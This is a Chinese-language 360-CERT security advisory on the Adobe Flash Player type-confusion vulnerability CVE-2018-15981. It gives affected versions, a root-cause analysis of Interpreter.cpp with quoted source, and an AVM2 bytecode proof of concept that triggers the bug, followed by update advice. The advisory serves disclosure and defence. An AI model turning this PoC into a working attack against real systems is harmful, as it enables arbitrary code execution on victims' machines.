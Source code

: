 ```yaml
---
id: e6191ef46e686e48ef6dc262982c61c4
title: Adobe Flash Player 任意代码执行漏洞（CVE-2018-15981）预警
tags: 
  - 安全资讯
  - 360CERT
---
```


# Adobe Flash Player 任意代码执行漏洞（CVE-2018-15981）预警

0x00 事件背景
---------


昨日深夜，Adobe发布适用于Windows，macOS，Linux和Chrome OS的Adobe Flash Player安全更新，修补了一枚类型混淆漏洞（CVE-2018-15981）。该漏洞影响Adobe Flash Player 31.0.0.148及以前版本，成功利用会导致任意代码执行。360-CERT对漏洞进行分析，认为该漏洞利用难度低且影响范围广，危害严重。


0x01 影响范围
---------




| 产品 | 版本 | 平台 |
| --- | --- | --- |
| Adobe Flash Player Desktop Runtime | 31.0.0.148 and earlier versions | Windows, macOS and Linux |
| Adobe Flash Player for Google Chrome | 31.0.0.148 and earlier versions | Windows, macOS, Linux and Chrome OS  |
| Adobe Flash Player for Microsoft Edge and Internet Explorer 11 | 31.0.0.148 and earlier versions | Windows 10 and 8.1 |


0x02 漏洞分析
---------


漏洞出在Interpreter.cpp文件中：Flash 在异常处理时，重置了状态机的许多变量，并将解释器的PC设置为目标处理程序的地址。但这个过程被过度优化，没有重置with-scope变量。使得攻击者可以构造恶意flash 文件，在对象加载后抛出异常，此时修改对象的成员变量类型，造成类型混淆。


在 Interpreter.cpp 源代码中，定义了一个 withBase 变量，用作scopeBase数组的指针偏移量



```
register Atom* const scopeBase = framep + ms->local_count();
register Atom* volatile withBase = NULL;
NONDEBUGGER_ONLY( register ) int volatile scopeDepth = 0;
register ScopeChain* const scope = env->scope();

```
而该变量，在findproperty指令的处理程序处调用。



```

 INSTR(findproperty) {
            b1 = false;
            findproperty_impl:
                SAVE_EXPC;
                GET_MULTINAME_PTR(multiname, U30ARG);
                if (multiname->isRuntime())
                {
                    aux_memory->multiname2 = *multiname;
                    sp = initMultiname(env, aux_memory->multiname2, sp);
                    multiname = &aux_memory->multiname2;
                }
                *(++sp) = env->findproperty(scope, scopeBase, scopeDepth, multiname, b1, withBase);
                NEXT;
            }

```
因此攻击者可以利用findproperty指令，对该漏洞进行利用。


利用的PoC如下：



```
getlocal0
pushscope

getlocal0
findpropstrict QName(PackageNamespace(""), "NewClass2")
constructprop QName(PackageNamespace(""), "NewClass2"), 0
initproperty QName(PackageInternalNs(""), "myvar")

getlocal0
pushwith

L10:
pushbyte 1
throw
L12:
nop
L16:

getlocal0
pushscope
pushint 534568
newobject 1
coerce QName(PackageNamespace(""), "Object")

pushscope

findproperty Multiname("myvar", [PackageInternalNs(""), PackageNamespace("")])
getproperty Multiname("myvar", [PackageInternalNs(""), PackageNamespace("")])

getslot 1

returnvoid

```
0x03 安全建议
---------


该漏洞利用难度低且影响范围广，危害严重。因此360-CERT强烈建议用户对Adobe Flash Player进行更新。


目前相关补丁已经发布，用户可以使用软件内部的“更新”功能，或者访问 <https://www.flash.cn/> 下载最新版本的应用。


0x04 时间线
--------


**2018-11-20** Adobe发布安全公告


**2018-11-21** 360-CERT 发布预警


0x05 参考链接
---------


1. [Adobe安全公告](https://helpx.adobe.com/security/products/flash-player/apsb18-44.html)
2. [漏洞详情](https://www.ragestorm.net/blogs/?p=421)


